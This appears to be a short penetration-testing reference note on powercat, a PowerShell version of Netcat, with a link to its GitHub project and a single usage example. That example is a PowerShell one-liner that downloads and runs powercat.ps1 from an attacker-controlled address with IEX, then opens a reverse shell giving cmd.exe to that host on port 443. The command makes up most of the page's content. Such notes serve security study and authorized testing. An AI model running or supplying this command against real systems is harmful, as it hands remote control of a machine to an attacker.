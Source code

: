```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

Netcat: The PowerShell version. (PowerShell Version 2 and Later Supported),

[GitHub - besimorhino/powercat: netshell features all in version 2 powershell](https://github.com/besimorhino/powercat)
# Guide

1. Linux version, see [[Netcat|Netcat]]


## Usage 

```
c:\\windows\\SysNative\\WindowsPowerShell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```